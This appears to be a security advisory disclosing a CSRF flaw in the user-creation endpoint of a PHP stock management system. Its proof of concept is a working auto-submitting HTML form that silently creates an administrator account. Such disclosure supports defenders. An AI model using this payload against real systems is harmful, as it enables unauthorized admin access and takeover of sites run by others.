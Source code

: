 ### 1. **Summary**

A Cross-Site Request Forgery (CSRF) vulnerability has been identified in the admin panel of Stock Management System (SMS-PHP by oretnom23), specifically on the user's creation page. An attacker can exploit this vulnerability to create a new administrator account with full privileges by submitting a specially crafted request to the vulnerable endpoint.

For reference and further investigation, you can download the source code from [here](https://www.sourcecodester.com/php/15023/stock-management-system-phpoop-source-code.html).
---

### 2. **Vulnerability Description**

CSRF vulnerabilities occur when an attacker tricks an authenticated user into submitting an unwanted request on their behalf. In this case, an attacker can create a new user with admin privileges without the user's consent.

#### Details of the vulnerability:

- The vulnerable endpoint is located at `/sms/classes/Users.php?f=save`.
- The user creation form does not properly validate requests, leaving it open to CSRF attacks.
- The attacker can craft a malicious request and trick the victim (admin user) into executing it.

By exploiting this CSRF vulnerability, an attacker can create a new admin account with full privileges, potentially compromising the security of the entire system.

---

### 3. **Proof of Concept (PoC)**

Below is the PoC that demonstrates the CSRF vulnerability. The attacker can host the following HTML page on their server or send it to the targeted admin user. When the admin user interacts with the page (e.g., clicks a button), the attacker’s script will create a new admin account without the user’s knowledge.


```
<html>
  <body>
    <form action="http://192.168.211.130/sms/classes/Users.php?f=save" method="POST">
      <input type="hidden" name="id" value="" />
      <input type="hidden" name="firstname" value="John" />
      <input type="hidden" name="lastname" value="Doe" />
      <input type="hidden" name="username" value="john" />
      <input type="hidden" name="password" value="Password" />
      <input type="hidden" name="type" value="1" />
      <input type="hidden" name="img" value="" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```

- **Description of the Attack**:  
    The attacker uses JavaScript to submit a POST request with a malicious payload to the vulnerable user creation endpoint. This request contains a new user’s data, including the `type` parameter set to `1` (indicating an admin account).  
    The attack will only succeed if the admin user is logged in and unaware of the attack.
    
#### **Screenshot of the Newly Created Admin Account**

The following screenshot demonstrates the result of the CSRF attack, showing the new admin account created by the attacker:
![1](https://github.com/th3w0lf-1337/Vulnerabilities/blob/main/SMS-PHP/CSRF/CSRF%20PoC.png)


### 4. **Impact**

If successfully exploited, this CSRF vulnerability can allow an attacker to:

- Create a new admin account.
- Gain full access to the system and its data.
- Potentially escalate the attack to compromise the entire infrastructure, depending on the privileges of the created admin account.
